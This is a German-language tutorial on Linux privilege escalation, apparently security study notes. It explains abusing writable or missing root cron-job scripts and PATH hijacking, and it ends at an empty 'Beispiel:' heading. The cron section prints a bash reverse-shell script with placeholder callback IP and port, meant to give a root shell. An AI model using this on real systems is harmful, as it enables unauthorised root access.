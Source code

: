 
# Privilegien Eskalieren: Cron Jobs

Cron- Jobs werden verwendet, um Skripte oder Binärdateien zu bestimmten Zeiten auszuführen. Standardmäßig werden sie mit den Rechten ihres Besitzers und nicht des aktuellen Benutzers ausgeführt. Richtig konfigurierte Cron-Jobs sind zwar nicht von Natur aus angreifbar, können aber unter bestimmten Bedingungen eine Möglichkeit zur Privilegienerweiterung bieten.
Die Idee ist ganz einfach: Wenn es eine geplante Aufgabe gibt, die mit Root-Rechten ausgeführt wird, und wir das Skript, das ausgeführt wird, ändern können, dann wird unser Skript mit Root-Rechten ausgeführt.
Cron-Job-Konfigurationen werden als Crontabs (Cron-Tabellen) gespeichert, um die nächste Zeit und das nächste Datum für die Ausführung der Aufgabe zu sehen.
Jeder Benutzer auf dem System hat seine eigene crontab-Datei und kann bestimmte Aufgaben ausführen, egal ob er angemeldet ist oder nicht. Wie man sich denken kann, besteht unser Ziel darin, einen Cron-Job zu finden, der von root erstellt wurde, und ihn unser Skript ausführen zu lassen, idealerweise eine Shell.

Wiegesagt jeder User hat zugriff auf die Cron-Jobs unter `/etc/crontab`

```
cat /etc/crontab
```

Hier kann es auch vorkommen das ein Cronjob existiert aber das Script gelöscht wurde das der job ausführen soll. Das kann man dann natürliuch nutzen um ein eigenes Script mit passenden namen an der Passenden stelle einzufügen. Egal ob man jetzt das Scripüt anpasst oder ein neues hinerlegt kann man sich hier nach Herzenswunsch austoben um z.B. Automatisch eine Reverseshell mit Root rechten zu starten

Das geht zum beispiel indem man das Script verwendet 
```
#!/bin/bash

bash -i >& /dev/tcp/*CallbackIP*/*callbackPort* 0>&1
```

# Privilegien Eskalierung: PATH

Wenn sich ein Ordner, für den Ihr Benutzer Schreibrechte hat, im Path befindet, kann eine Anwendung möglicherweise zur Ausführung eines Skripts missbraucht werden. PATH in Linux ist eine Umgebungsvariable, die dem Betriebssystem mitteilt, wo es nach ausführbaren Dateien suchen soll. Bei jedem Befehl, der nicht in die Shell integriert oder nicht mit einem absoluten Pfad definiert ist, beginnt Linux mit der Suche in den unter PATH definierten Ordnern. (PATH ist die Umgebungsvariable, von der hier die Rede ist, Pfad ist der Speicherort einer Datei).

Was ist hier wichtig zu Wissen/Testen?
- Welche Ordner befinden sich unter $PATH
- Hat der aktuelle Benutzer Schreibrechte für einen dieser Ordner?
- Kann $PATH geändert werden?
- Gibt es ein Skript/eine Anwendung, die gestartet werden kann und die von dieser Sicherheitslücke betroffen ist?


Beispiel:
